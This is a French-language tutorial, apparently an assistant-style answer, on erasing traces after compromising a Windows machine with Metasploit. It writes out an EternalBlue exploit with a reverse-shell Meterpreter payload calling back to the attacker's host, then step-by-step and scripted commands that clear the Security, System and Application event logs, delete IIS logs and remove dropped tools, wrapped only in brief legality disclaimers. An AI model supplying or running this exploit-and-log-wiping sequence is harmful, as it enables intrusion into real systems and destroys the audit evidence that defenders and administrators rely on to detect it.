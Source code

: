 Effacer les traces après une exploitation peut être crucial pour éviter la détection par des administrateurs ou des systèmes de détection d'intrusion. Cependant, il est important de noter que ces actions doivent être effectuées dans le cadre légal et éthique, généralement dans des environnements de test ou avec une autorisation explicite.

Un outil communément utilisé pour l'effacement de traces est `Metasploit`. Voici un exemple complet en utilisant Metasploit pour effacer les traces après une exploitation sur une machine Windows. Nous allons couvrir la suppression de fichiers de logs et l'effacement des traces de la session Meterpreter.

### Étapes pour effacer les traces après exploitation

#### 1. Initialiser l'environnement et obtenir une session Meterpreter

1. **Lancer Metasploit** :
   ```bash
   msfconsole
   ```

2. **Configurer et lancer une exploitation** :
   - Utilisez une exploitation appropriée pour obtenir une session Meterpreter sur la cible.
   - Par exemple, utilisez le module `exploit/windows/smb/ms17_010_eternalblue` pour exploiter une vulnérabilité SMB :
     ```bash
     use exploit/windows/smb/ms17_010_eternalblue
     set RHOST <IP-de-la-cible>
     set PAYLOAD windows/meterpreter/reverse_tcp
     set LHOST <Votre-IP-Kali>
     set LPORT 4444
     exploit
     ```

3. **Obtenir une session Meterpreter** :
   - Une fois l'exploitation réussie, vous obtiendrez une session Meterpreter.

#### 2. Effacer les traces sur la machine cible

1. **Effacer l'historique des commandes** :
   - Si vous avez utilisé la console CMD, vous pouvez effacer l'historique des commandes en utilisant :
     ```bash
     run post/windows/manage/clearcmd
     ```

2. **Effacer les fichiers temporaires et les logs** :
   - Utilisez les commandes Meterpreter pour supprimer les fichiers et logs.
   - Par exemple, pour supprimer un fichier de log particulier :
     ```bash
     rm C:\\Windows\\Temp\\your_file.log
     ```

3. **Effacer les logs de Windows Event Viewer** :
   - Utilisez les scripts intégrés de Meterpreter pour effacer les logs d'événements :
     ```bash
     run event_manager -c
     ```

4. **Effacer les logs d'Application, de Sécurité et de Système** :
   - Vous pouvez également utiliser des commandes PowerShell pour effacer les logs :
     ```bash
     shell
     wevtutil cl Application
     wevtutil cl Security
     wevtutil cl System
     ```

5. **Effacer les logs d'accès** :
   - Supprimez les fichiers de logs IIS ou Apache si des serveurs web sont présents :
     ```bash
     rm C:\\inetpub\\logs\\LogFiles\\W3SVC1\\*.log
     ```

6. **Supprimer les outils téléchargés** :
   - Assurez-vous de supprimer tous les outils et fichiers que vous avez téléchargés sur la machine cible :
     ```bash
     rm C:\\Windows\\Temp\\malicious_tool.exe
     ```

### Exemple complet de script Metasploit pour l'effacement des traces

Voici un script Metasploit qui automatise certaines des tâches mentionnées ci-dessus :

```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOST <IP-de-la-cible>; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST <Votre-IP-Kali>; set LPORT 4444; exploit"
```

Une fois que vous avez une session Meterpreter, exécutez les commandes suivantes :

```meterpreter
# Effacer l'historique des commandes
run post/windows/manage/clearcmd

# Effacer les logs d'événements
run event_manager -c

# Effacer les logs d'Application, de Sécurité et de Système
shell
wevtutil cl Application
wevtutil cl Security
wevtutil cl System
exit

# Supprimer les fichiers de logs et temporaires spécifiques
rm C:\\Windows\\Temp\\*.log
rm C:\\Windows\\Temp\\malicious_tool.exe
```

### Conclusion

Effacer les traces après une exploitation est une compétence avancée qui doit être utilisée avec une grande prudence et uniquement dans des environnements de test ou avec une autorisation explicite. Les outils comme Metasploit offrent des fonctionnalités puissantes pour automatiser et exécuter ces tâches. Assurez-vous de toujours agir dans les limites légales et éthiques lors de la réalisation de tests de sécurité.